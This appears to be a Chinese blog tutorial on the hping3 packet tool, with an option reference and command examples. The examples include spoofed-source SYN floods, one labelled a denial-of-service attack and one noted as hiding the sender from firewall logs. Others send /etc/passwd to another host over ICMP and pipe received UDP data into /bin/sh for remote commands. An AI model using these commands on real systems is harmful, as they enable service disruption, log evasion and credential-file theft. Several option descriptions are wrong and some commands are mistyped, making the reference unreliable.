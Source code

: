 ```yaml
---
title: linux命令hping3
date: 2020-12-11 10:08:06
categories: [linux,]  
tags: [linuxcc,linux]
---
```



<!-- more -->   

# linux命令hping3
hping是安全审计、防火墙测试等工作的标配工具。`hping优势在于能够定制数据包的各个部分`，因此用户可以灵活对目标机进行细致地探测。

安装
```bash
yum install hping3 -y
```


## 功能

> 参数

```bash
-h --help 显示帮助信息
-v --version 显示Hping的版本信息
-c --count 指定数据包的次数
-i --interval 指定发包间隔为多少毫秒，如-i m10：表示发包间隔为10毫秒(附:秒、毫秒、微秒进率。1s=1000ms(毫秒)=1000000(微秒)，1s=103ms(毫秒)=106μs(微秒))
–fast 与-i m100等同，即每秒钟发送10个数据包(hping的间隔u表示微妙，－－fast表示快速模式，一秒10个包。)
-n --numeric 指定以数字形式输出,表示不进行名称解析。
-q --quiet 退出Hping
-I --interface 指定IP，如本机有两块网卡，可通过此参数指定发送数据包的IP地址。如果不指定则默认使用网关IP
-V --verbose 详细模式,一般显示很多包信息。
-D --debug 定义hping使用debug模式。
-z --bind 将ctrl+z 绑定到ttl，默认使用DST端口
-Z --unbind 解除ctrl+z的绑定

指定所用的模式：
(缺省使用TCP进行PING处理)
-0 --rawip 裸IP方式,使用RAWSOCKET方式。
-1 --icmp ICMP 模式
-2 --udp UDP 模式
-8 --scan 扫描模式. (例: hping --scan 1-30,70-90 -S www.target.host)
-9 --listen 监听模式，会接受指定的信息。侦听指定的信息内容。

IP选项：

-a --spoof 源地址欺骗
–rand-dest 随机目的地址模式
–rand-source 随机源目的地址模式
-t --ttl ttl值，默认为64
-N --id 指定id，默认是随机的
-W --winid 使用win*的id 字节顺序,针对不同的操作系统。
-r --rel 相对的id区域
-f --frag 将数据包分片后传输(可以通过薄弱的acl(访问控制列表))
-x --morefrag 设置更多的分片标记
-y --dontfrag 设置不加分片标记
-g --fragoff 设置分片偏移
-m --mtu 设置虚拟MTU, 当数据包>MTU时要使用–frag 进行分片
-o --tos 指定服务类型，默认是0x00,，可以使用–tos help查看帮助
-G --rroute 包含RECORD_ROUTE选项并且显示路由缓存
–lsrr 释放源路记录
–ssrr 严格的源路由记录
-H --ipproto 设置协议范围，仅在RAW IP模式下使用

ICMP选项

-C --icmptype 指定icmp类型（默认类型为回显请求）
-K --icmpcode 指定icmp编码（默认为0）
–force-icmp 发送所有ICMP数据包类型（默认只发送可以支持的类型） --icmp-gw 针对ICMP数据包重定向设定网关地址（默认是0.0.0.0）
–icmp-ts 相当于–icmp --icmptype 13（ICMP时间戳）
–icmp-addr 相当于–icmp --icmptype 17（ICMP地址掩码）
–icmp-help 显示ICMP的其它帮助选项

UDP/TCP选项

-s --baseport 基本源端口（默认是随机的）
-p --destport 目的端口（默认为0），可同时指定多个端口
-k --keep 仍然保持源端口
-w --win 指定数据包大小，默认为64
-O --tcpoff 设置假的TCP数据偏移
-Q --seqnum 仅显示TCP序列号
-b --badcksum 尝试发送不正确IP校验和的数据包(许多系统在发送数据包时使用固定的IP校验和，因此你会得到不正确的UDP/TCP校验和.)
-M --setseq 设置TCP序列号
-L --setack 使用TCP的ACK（访问控制列表）
-F --fin 使用FIN标记set FIN flag
-S --syn 使用SNY标记
-R --rst 使用RST标记
-P --push 使用PUSH标记
-A --ack 使用 ACK 标记
-U --urg 使用URG标记
-X --xmas 使用 X 未用标记 (0x40)
-Y --ymas 使用 Y 未用标记 (0x80)
–tcpexitcode 最后使用 tcp->th_flags 作为退出代码
–tcp-timestamp 启动TCP时间戳选项来猜测运行时间

常规选项

-d --data 数据大小，默认为0
-E --file 从指定文件中读取数据
-e --sign 增加签名
-j --dump 以十六进行形式转存数据包
-J --print 转存可输出的字符
-B --safe 启用安全协议
-u --end 当通过- -file指定的文件结束时停止并显示，防止文件再从头开始
-T --traceroute 路由跟踪模式
–tr-stop 在路由跟踪模式下当收到第一个非ICMP数据包时退出
–tr-keep-ttl 保持源TTL，对监测一个hop有用
–tr-no-rtt 使用路由跟踪模式时不计算或显示RTT信息

ARS数据包描述(新增加的内容，暂时还不稳定)
–apd-send 发送用描述APD的数据包

```

> 防火墙测试

- -S 表示只发送SYN包, 也就是握手协议中的请求包
- -c 表示发包的数量
- -a hostname 表示伪造IP攻击，防火墙就不会记录你的真实IP了，当然回应的包你也接收不到了
- -p 表示目的端口
```bash
hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
```

> 端口扫描

- -I eth0指定使用eth0端口
- -S指定TCP包的标志位SYN
- -p 80指定探测的目的端口
```bash
hping3 -I eth0  -S 192.168.10.1 -p 80
```

> 拒绝服务攻击

- -I 指定网卡
- -a 伪造ip
- -S 发送syn包
- -p 指定目的端口
- -i 指定发送间隔的时间 u1000表示1000微秒
```bash
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```

> 文件传输

- --listen 表示监听指定内容,这里表示监听signature的内容
- 
```bash
# 接收端
hping3 192.168.1.159--listen signature --safe  --icmp
# 发送端
hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
```

> 发送程序

```bash
# 接收端
hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
# 发送端
echo ls >test.cmd
hping3 192.168.10.44 -p53 -d 100 --udp --sign signature --file ./test.cmd
```


https://mochazz.github.io/2017/07/23/hping3/#ICMP-Flood%E6%94%BB%E5%87%BB
https://zhuanlan.zhihu.com/p/123226453